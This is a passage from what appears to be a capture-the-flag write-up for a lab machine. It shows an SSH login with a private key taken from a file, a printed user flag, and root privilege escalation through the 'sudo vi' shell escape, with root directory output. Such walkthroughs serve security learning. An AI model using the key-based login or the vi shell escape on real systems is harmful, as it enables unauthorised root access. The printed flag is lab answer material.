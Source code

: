   ```
  cat teleport
  -----BEGIN RSA PRIVATE KEY-----
  [SNIP!]
  -----END RSA PRIVATE KEY-----

  chmod 600 id_rsa
  ssh -i id_rsa charlie@10.10.230.172
  
  [SNIP!]
  
  charlie@chocolate-factory:/$ whoami
  charlie
  charlie@chocolate-factory:/$ id
  uid=1000(charlie) gid=1000(charley) groups=1000(charley),0(root),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),108(lxd)
  ```
  
- Perfect, no passphrase needed, read the flag and move to escalation.

  ```
  charlie@chocolate-factory:/$ cat /home/charlie/user.txt 
  flag{cd5509042371b34e4826e4838b522d2e}
  ```

---

## 👑 Root Privilege Escalation

- This one was actually such a cool flag. Escalate to root with `vi`, use `sudo -l` before to confirm it. One-liner can be found on GTFOBins.

  ```
  charlie@chocolate-factory:/$ sudo -l
  Matching Defaults entries for charlie on chocolate-factory:
      env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
  
  User charlie may run the following commands on chocolate-factory:
      (ALL : !root) NOPASSWD: /usr/bin/vi
  
  charlie@chocolate-factory:/$ sudo vi -c ':!/bin/sh' /dev/null
  
  # whoami
  root
  # cat /root/root.txt
  cat: /root/root.txt: No such file or directory
  ```
  
- Since I am doing a lot of these CTFs, by habit I tried to read the flag but it doesn't exist lol. Well, here's the thing, flag is actually a Python file.

  ```
  # cd /root
  # pwd
  /root
  
  # ls -al
  total 40
  drwx------  6 root    root    4096 Oct  7  2020 .
  drwxr-xr-x 24 root    root    4096 Sep  1  2020 ..
  -rw-------  1 root    root       0 Oct  7  2020 .bash_history
  -rw-r--r--  1 root    root    3106 Apr  9  2018 .bashrc
  drwx------  3 root    root    4096 Oct  1  2020 .cache
  drwx------  3 root    root    4096 Sep 30  2020 .gnupg
  drwxr-xr-x  3 root    root    4096 Sep 29  2020 .local
  -rw-r--r--  1 root    root     148 Aug 17  2015 .profile
  ```